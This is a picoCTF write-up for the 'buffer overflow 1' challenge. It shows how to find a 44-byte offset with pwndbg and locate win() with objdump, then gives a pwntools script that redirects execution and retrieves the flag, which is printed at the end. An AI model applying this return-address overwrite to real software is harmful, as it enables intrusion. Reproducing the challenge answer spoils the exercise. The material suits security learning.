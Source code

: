# buffer overflow 1 solution
first, i make the file executable locally using 
``` chmod +x ./vuln```

i run ```file ./vuln``` to get that ```./vuln``` is a ```ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=685b06b911b19065f27c2d369c18ed09fbadb543, for GNU/Linux 3.2.0, not stripped```

i then run ```./vuln``` using ghidra and i find that it has a ```win()``` function which will print the flag for me once i overflow into it.
```
void win(void)

{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    printf("%s %s","Please create \'flag.txt\' in this directory with your","own debugging flag.\n")
    ;
                    // WARNING: Subroutine does not return
    exit(0);
  }
  fgets(local_50,0x40,local_10);
  printf(local_50);
  return;
}
```

then, i used pwndbg to find the offset:

1. ```gdb ./vuln```, which will enter pwndbg.
2. since ```./vuln``` is a 32 bit executable, i run ```cyclic 100 -n 4``` in pwndbg to get a really long string.

-> i run ```cyclic -n 4``` because on 32-bit systems, the stack is overwritten in 4-byte chunks, and i want cyclic_find() to search correctly.

3. the function gives me this:

![cyclic.png](images/cyclic.png)

4. i then run ```./vuln``` by entering `r` into pwndbg then copying and pasting the de-brujin sequence that i generated. 
5. the program will crash and show me the address, which in this case is `Okay, time to return... Fingers Crossed... Jumping to 0x6161616c`, so `0x6161616c` is where the program crashed.

![crash.png](images/crash.png)
![crash2.png](images/crash2.png)

6. i will then use `cyclic -l 0x6161616c` to find the offset, in this case it is 44.

![offset.png](images/offset.png)

7. now that i've found the offset, all i need to do is to obtain the address of the `win()` function so that i can overflow into it.
8. i created my own test flag using `echo picoCTF{test_flag} > flag.txt`
9. i then used `objdump -d vuln | grep win` to get the location of where the `win()` function starts, which is `0x080491f6`. (`objdump -d <file> | grep something` displays information about one or more object files and grep filters for lines matching whatever you put after grep)

![find_win.png](images/find_win.png)

10. now that i have the location of the `win()` function and the offset, i can begin crafting my payload;

```
from pwn import *

# Address of the win function
win_addr = p32(0x080491f6)

# Create the payload: 44 bytes of padding followed by the address of win()
payload = b"A" * 44 + win_addr

# Start the process and send the payload
p = process("./vuln")
p.sendline(payload)
p.interactive()
```

11. i send it by running `python3 buffer_overflow1_local.py` and it pushes out my test flag, which means my payload worked!

![test_flag_success.png](images/test_flag_success.png)

12. all i need to do now is to change the python file to run on the address that picoCTF gave me, and i'll get the flag!

```
from pwn import *

# Replace these with actual challenge values
HOST = "saturn.picoctf.net"  # actual host
PORT = 61422                 # actual port

# Address of the win function — verify if remote binary is different!
win_addr = p32(0x080491f6)

# Create the payload: 44 bytes of padding followed by the address of win()
payload = b"A" * 44 + win_addr

# Connect to the remote challenge
p = remote(HOST, PORT)

# Optional: wait for specific prompt before sending
p.recvuntil(b"Please enter your string:")

# Send the payload
p.sendline(payload)
```

and voila, you get the flag!

![real_flag_success.png](images/real_flag_success.png)

flag: ```picoCTF{addr3ss3s_ar3_3asy_5c6baa9e}```
